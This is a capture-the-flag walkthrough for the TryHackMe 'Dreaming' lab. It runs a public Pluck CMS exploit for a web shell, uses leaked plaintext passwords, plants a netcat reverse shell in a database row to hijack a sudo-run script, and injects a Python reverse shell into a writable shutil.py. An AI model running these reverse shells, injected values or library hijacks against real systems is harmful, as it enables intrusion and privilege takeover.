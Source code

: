 link: https://tryhackme.com/room/dreaming

<code>
└─$ nmap -sV -sC -Pn dreaming.thm        
Starting Nmap 7.92 ( https://nmap.org ) at 2024-01-12 04:22 CST
Nmap scan report for dreaming.thm (10.10.57.14)
Host is up (0.034s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 76:26:67:a6:b0:08:0e:ed:34:58:5b:4e:77:45:92:57 (RSA)
|   256 52:3a:ad:26:7f:6e:3f:23:f9:e4:ef:e8:5a:c8:42:5c (ECDSA)
|_  256 71:df:6e:81:f0:80:79:71:a8:da:2e:1e:56:c4:de:bb (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

 nmap, gobuster

http://dreaming.thm/app/pluck-4.7.13/?file=dreaming

<h2> Initial access </h2>

whoops default admin password is password
http://dreaming.thm/app/pluck-4.7.13/admin.php?action=start

use known exploit to get reverse shell
https://www.exploit-db.com/exploits/49909
─$ python3 49909.py 10.10.57.14 80 password /app/pluck-4.7.13/



p0wny@shell:/home# ls -la
total 20
drwxr-xr-x  5 root     root     4096 Jul 28 22:26 .
drwxr-xr-x 20 root     root     4096 Jul 28 22:35 ..
drwxr-xr-x  4 death    death    4096 Aug 25 20:04 death
drwxr-xr-x  5 lucien   lucien   4096 Aug 25 16:26 lucien
drwxr-xr-x  3 morpheus morpheus 4096 Aug  7 23:48 morpheus



<h2> PrivEsc to Lucien </h2>

run linpeas found interesing files 
www-data@dreaming:/opt$ ls -la
ls -la
total 16
drwxr-xr-x  2 root   root   4096 Aug 15 12:45 .
drwxr-xr-x 20 root   root   4096 Jul 28 22:35 ..
-rwxrw-r--  1 death  death  1574 Aug 15 12:45 getDreams.py
-rwxr-xr-x  1 lucien lucien  483 Aug  7 23:36 test.py
www-data@dreaming:/opt$ cat test.py
cat test.py
import requests
#Todo add myself as a user
url = "http://127.0.0.1/app/pluck-4.7.13/login.php"
password = "HeyLucien#@1999!"

data = {
        "cont1":password,
        "bogus":"",
        "submit":"Log+in"
        }

req = requests.post(url,data=data)

if "Password correct." in req.text:
    print("Everything is in proper order. Status Code: " + str(req.status_code))
else:
    print("Something is wrong. Status Code: " + str(req.status_code))
    print("Results:\n" + req.text)
www-data@dreaming:/opt$ su lucien
su lucien
<b>Password: HeyLucien#@1999!</b>
id
uid=1000(lucien) gid=1000(lucien) groups=1000(lucien),4(adm),24(cdrom),30(dip),46(plugdev)

get Lucien password login via ssh

<h2> PrivEsc to Death </h2>

lucien@dreaming:/opt$ sudo -l
Matching Defaults entries for lucien on dreaming:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lucien may run the following commands on dreaming:
    (death) NOPASSWD: /usr/bin/python3 /home/death/getDreams.py


lucien@dreaming:~$ mysql -u lucien -plucien42DBPASSWORD
mysql> use library
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A
Database changed
mysql> show tables;
+-------------------+
| Tables_in_library |
+-------------------+
| dreams            |
+-------------------+
1 row in set (0.00 sec)

mysql> select * from dreams;
+---------+------------------------------------+
| dreamer | dream                              |
+---------+------------------------------------+
| Alice   | Flying in the sky                  |
| Bob     | Exploring ancient ruins            |
| Carol   | Becoming a successful entrepreneur |
| Dave    | Becoming a professional musician   |
+---------+------------------------------------+

INSERT INTO dreams (dreamer, dream) VALUES ('id& rm', '/tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.9.30.202 4445 >/tmp/f');

mysql> UPDATE dreams  set dreamer = 'id& rm', dream = ' /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.9.30.202 4445 >/tmp/f' WHERE dreamer = 'id& rm';
Query OK, 1 row affected (0.01 sec)
Rows matched: 1  Changed: 1  Warnings: 0

mysql> select * from dreams;
+-----------------+--------------------------------------------------------------------------------+
| dreamer         | dream                                                                          |
+-----------------+--------------------------------------------------------------------------------+
| Alice           | Flying in the sky                                                              |
| Bob             | Exploring ancient ruins                                                        |
| Carol           | Becoming a successful entrepreneur                                             |
| Dave            | Becoming a professional musician                                               |
| id& rm          |  /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.9.30.202 4445 >/tmp/f |
+-----------------+--------------------------------------------------------------------------------+

<h2>get reverse shell as death </h2>

and run
lucien@dreaming:~$ sudo -u death /usr/bin/python3 /home/death/getDreams.py


<h2>get death password</h2>

death@dreaming:~$ cat getDreams.py 
import mysql.connector
import subprocess

# MySQL credentials
DB_USER = "death"
DB_PASS = "!mementoMORI666!"
DB_NAME = "library"

<h2>Enumeration as Death </h2>

run linpeas
╔══════════╣ Interesting GROUP writable files (not in Home) (max 500)
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-files                                   
  Group death:                                                                                                      
/usr/lib/python3.8/shutil.py     
╔══════════╣ Unexpected in root
/kingdom_backup                                                                                                     
/swap.img

death@dreaming:/home/morpheus$ cat restore.py
cat restore.py
from shutil import copy2 as backup

src_file = "/home/morpheus/kingdom"
dst_file = "/kingdom_backup/kingdom"

backup(src_file, dst_file)
print("The kingdom backup has been done!")


insert reverse shell to /usr/lib/python3.8/shutil.py     
import os,pty,socket;s=socket.socket();s.connect(("10.x.x.x",4446));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")
and run listener

get Morpehus shell

<\code>
